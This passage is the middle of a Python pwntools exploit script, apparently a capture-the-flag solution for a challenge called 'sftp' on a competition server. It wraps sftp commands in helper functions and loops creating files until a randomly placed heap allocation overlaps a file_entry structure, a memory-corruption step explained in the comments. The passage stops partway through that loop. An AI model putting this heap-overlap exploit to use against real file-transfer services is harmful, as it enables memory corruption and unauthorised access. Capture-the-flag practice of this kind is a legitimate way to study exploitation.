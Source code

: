```python
	else:
		p.sendline("ls %s" % path)
	b = p.recvuntil("sftp> ") #ez nyilvan fos hogy ha utkozik a filenevvel..
	return b


def ls_leak(pattern):
	p.sendline("ls")
	b = p.recvuntil("sftp> ") #ez nyilvan fos hogy ha utkozik a filenevvel..
	if pattern in b:
		print "Data file_entry overlap achieved!!!!!!"
		return 1
	else:
		#print "ls return normal."
		return 0
	
def mkdir(path):
	p.sendline("mkdir %s" % path)
	print p.recvuntil("sftp> ")

def rm(path):
	p.sendline("rm %s" % path)
	print p.recvuntil("sftp> ")

def rmdir(path):
	p.sendline("rmdir %s" % path)
	print p.recvuntil("sftp> ")

def symlink(oldpath, newpath):
	p.sendline("symlink %s %s" % (oldpath, newpath))
	print p.recvuntil("sftp> ")

REMOTE = True

context.update(arch='amd64')
cwd = './'
bin = os.path.join(cwd, 'sftp_orig')

execute = [
    # 'continue'
]
execute = flat(map(lambda x: x + '\n', execute))

if REMOTE:
	p = remote('sftp.ctfcompetition.com', 1337)
else:
	p = process(bin, cwd=cwd, aslr=True)

auth()

#loop making files, always check if the ls shows an overlap occured
#since the malloc goes to a rand() address, when making new files, eventually
#we can get lucky and the page of data marker can overlap a file_entry structure.
#if this happens, pwd->child[X].name will simply becomes the marker, so we detect this with ls().
#ls() doesnt use anything else from the file_entry structure, therefore the murdering of pointers
#in it in this case make no difference.

entry_offset = -1

pattern = "B"
fpath = ""
for i in range(0, 5000):
	fpath = "/home/c01db33f/foobar_%d" % i
```